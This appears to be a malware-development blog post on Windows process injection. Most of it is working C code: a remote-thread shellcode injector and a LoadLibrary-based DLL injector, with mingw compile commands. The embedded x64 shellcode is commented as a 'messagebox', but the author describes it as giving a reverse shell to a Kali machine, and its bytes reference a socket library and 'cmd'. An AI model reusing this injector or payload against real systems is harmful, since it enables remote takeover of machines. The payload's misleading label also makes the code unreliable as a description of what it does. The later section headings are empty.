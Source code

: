 ```yaml
---
layout: post
title: 2 MALDEV - Malware Injection
category : [Reverse, MALDEV]
tags: reverse
---
```


# Traditional Injection Approaches

## Simple Injection 

```c 
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <windows.h>

// payload: messagebox
unsigned char payload[] =
"\xfc\x48\x83\xe4\xf0\xe8\xc0\x00\x00\x00\x41\x51\x41\x50"
"\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60\x48\x8b\x52"
"\x18\x48\x8b\x52\x20\x48\x8b\x72\x50\x48\x0f\xb7\x4a\x4a"
"\x4d\x31\xc9\x48\x31\xc0\xac\x3c\x61\x7c\x02\x2c\x20\x41"
"\xc1\xc9\x0d\x41\x01\xc1\xe2\xed\x52\x41\x51\x48\x8b\x52"
"\x20\x8b\x42\x3c\x48\x01\xd0\x8b\x80\x88\x00\x00\x00\x48"
"\x85\xc0\x74\x67\x48\x01\xd0\x50\x8b\x48\x18\x44\x8b\x40"
"\x20\x49\x01\xd0\xe3\x56\x48\xff\xc9\x41\x8b\x34\x88\x48"
"\x01\xd6\x4d\x31\xc9\x48\x31\xc0\xac\x41\xc1\xc9\x0d\x41"
"\x01\xc1\x38\xe0\x75\xf1\x4c\x03\x4c\x24\x08\x45\x39\xd1"
"\x75\xd8\x58\x44\x8b\x40\x24\x49\x01\xd0\x66\x41\x8b\x0c"
"\x48\x44\x8b\x40\x1c\x49\x01\xd0\x41\x8b\x04\x88\x48\x01"
"\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58\x41\x59\x41\x5a"
"\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41\x59\x5a\x48\x8b"
"\x12\xe9\x57\xff\xff\xff\x5d\x49\xbe\x77\x73\x32\x5f\x33"
"\x32\x00\x00\x41\x56\x49\x89\xe6\x48\x81\xec\xa0\x01\x00"
"\x00\x49\x89\xe5\x49\xbc\x02\x00\x11\x5c\xc0\xa8\x64\xf9"
"\x41\x54\x49\x89\xe4\x4c\x89\xf1\x41\xba\x4c\x77\x26\x07"
"\xff\xd5\x4c\x89\xea\x68\x01\x01\x00\x00\x59\x41\xba\x29"
"\x80\x6b\x00\xff\xd5\x50\x50\x4d\x31\xc9\x4d\x31\xc0\x48"
"\xff\xc0\x48\x89\xc2\x48\xff\xc0\x48\x89\xc1\x41\xba\xea"
"\x0f\xdf\xe0\xff\xd5\x48\x89\xc7\x6a\x10\x41\x58\x4c\x89"
"\xe2\x48\x89\xf9\x41\xba\x99\xa5\x74\x61\xff\xd5\x48\x81"
"\xc4\x40\x02\x00\x00\x49\xb8\x63\x6d\x64\x00\x00\x00\x00"
"\x00\x41\x50\x41\x50\x48\x89\xe2\x57\x57\x57\x4d\x31\xc0"
"\x6a\x0d\x59\x41\x50\xe2\xfc\x66\xc7\x44\x24\x54\x01\x01"
"\x48\x8d\x44\x24\x18\xc6\x00\x68\x48\x89\xe6\x56\x50\x41"
"\x50\x41\x50\x41\x50\x49\xff\xc0\x41\x50\x49\xff\xc8\x4d"
"\x89\xc1\x4c\x89\xc1\x41\xba\x79\xcc\x3f\x86\xff\xd5\x48"
"\x31\xd2\x48\xff\xca\x8b\x0e\x41\xba\x08\x87\x1d\x60\xff"
"\xd5\xbb\xf0\xb5\xa2\x56\x41\xba\xa6\x95\xbd\x9d\xff\xd5"
"\x48\x83\xc4\x28\x3c\x06\x7c\x0a\x80\xfb\xe0\x75\x05\xbb"
"\x47\x13\x72\x6f\x6a\x00\x59\x41\x89\xda\xff\xd5";

unsigned int payload_length = sizeof(payload);

int main(int argc, char* argv[]) {
  HANDLE process_handle; // Handle for the target process
  HANDLE remote_thread; // Handle for the remote thread
  PVOID remote_buffer; // Buffer in the remote process

  // Parse the target process ID
  printf("Target Process ID: %i\n", atoi(argv[1]));
  process_handle = OpenProcess(PROCESS_ALL_ACCESS, FALSE, (DWORD)atoi(argv[1]));

  // Allocate memory in the target process for remote buffer
  remote_buffer = VirtualAllocEx(process_handle, NULL, payload_length, (MEM_RESERVE | MEM_COMMIT), PAGE_EXECUTE_READWRITE);

  // Copy payload data from our process to the remote process
  WriteProcessMemory(process_handle, remote_buffer, payload, payload_length, NULL);

  // Create a remote thread in the target process to start our payload
  remote_thread = CreateRemoteThread(process_handle, NULL, 0, (LPTHREAD_START_ROUTINE)remote_buffer, NULL, 0, NULL);
  
  // Clean up and close the process handle
  CloseHandle(process_handle);

  return 0;
}
```

The concept here is, I launch my `hack2.exe` and give the PID of an application accessible like a calculator previously launched as an argument. Then I get a ReverseShell on my kali machine. Shellcode and Compilation steps are the same than in post 1. 

To get the pid of a process with it's name we can use `(Get-Process -Name "*<process name>*").Id`

Moreover for the sake of simplicity I have setup an ssh server on my windows machine which I access from my kali machine so I can download and launch the hack.exe from cli. Basically I can do everything from cli as it's a faster and smoother way to do thing  imo.

![maldev](/assets/images/maldev/2/execution.png)

We can get confirmation by looking at ProcessInformation network tab :

![maldev2](/assets/images/maldev/2/pi.png)

And in Properties > Memory you can find `ws2_32.dll` and it should never happen as this module is responsible for sockets management.

However opening another process with write access is restricted, one safeguard is the `Mandatory Integrity Control (MIC)` where there are four levels of integrity :

- Low level: Processes that have restricted system access (Internet Explorer)
- Medium level: This is the default for all processes that are started by non-privileged users and
also by administrator users with UAC enabled
- High level: Processes that execute with administrator privileges
- System level: Used by SYSTEM users, this level of system services and processes require the utmost level of security


![maldev3](/assets/images/maldev/2/properties.png)

## DLL Injection

### DLL Code 

```c 
#include <windows.h>
BOOL APIENTRY DllMain(HMODULE hModule,  DWORD  nReason, LPVOID
lpReserved) {
  switch (nReason) {
  case DLL_PROCESS_ATTACH:
     MessageBox(
     NULL,
     "Meow from evil.dll!",
     "=^..^=",
     MB_OK
     );
     break;
  case DLL_PROCESS_DETACH:
     break;
  case DLL_THREAD_ATTACH:
     break;
  case DLL_THREAD_DETACH:
     break;
  }
  return TRUE;
}
```

That we can compile with :

```bash 
x86_64-w64-mingw32-g++ -shared -o evil.dll evil.c -fpermissive
```

### Main C Code 

```c 
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <windows.h>

// "malicious" DLL: our messagebox
char maliciousDLL[] = "C:\\evil.dll";
unsigned int dll_length = sizeof(maliciousDLL) + 1;

int main(int argc, char* argv[]) {
  HANDLE process_handle; // Handle for the target process
  HANDLE remote_thread; // Handle for the remote thread
  PVOID remote_buffer; // Buffer in the remote process

  // Handle to kernel32 and pass it to GetProcAddress
  HMODULE kernel32_handle = GetModuleHandle("Kernel32");
  VOID *lbuffer = GetProcAddress(kernel32_handle, "LoadLibraryA");

  // Parse the target process ID
  if ( atoi(argv[1]) == 0) {
    printf("Target Process ID not found :( exiting...\n");
    return -1;
  }

  printf("Target Process ID: %i", atoi(argv[1]));
  process_handle = OpenProcess(PROCESS_ALL_ACCESS, FALSE, (DWORD)atoi(argv[1]));

  // Allocate memory in the target process for remote buffer
  remote_buffer = VirtualAllocEx(process_handle, NULL, dll_length, (MEM_RESERVE | MEM_COMMIT), PAGE_EXECUTE_READWRITE);

  // Copy DLL from our process to the remote process
  WriteProcessMemory(process_handle, remote_buffer, maliciousDLL, dll_length, NULL);

  // Create a remote thread in the target process to start our "malicious" DLL
  remote_thread = CreateRemoteThread(process_handle, NULL, 0, (LPTHREAD_START_ROUTINE)lbuffer, remote_buffer, 0, NULL);
  
  // Clean up and close the process handle
  CloseHandle(process_handle);

  return 0;
}
```

That we can compile with :

```bash 
 x86_64-w64-mingw32-g++ -O2 hack3.c -o hack3.exe -I/usr/share/mingw-w64/include/ -s -ffunction-sections -fdata-sections -Wno-write-strings -fno-exceptions -fmerge-all-constants -static-libstdc++ -static-libgcc -fpermissive
```

On windows it should look like that :

![maldev4](/assets/images/maldev/2/dllinjection.png)

# Hijacking techniques

# APC Injection 

# API hooking 
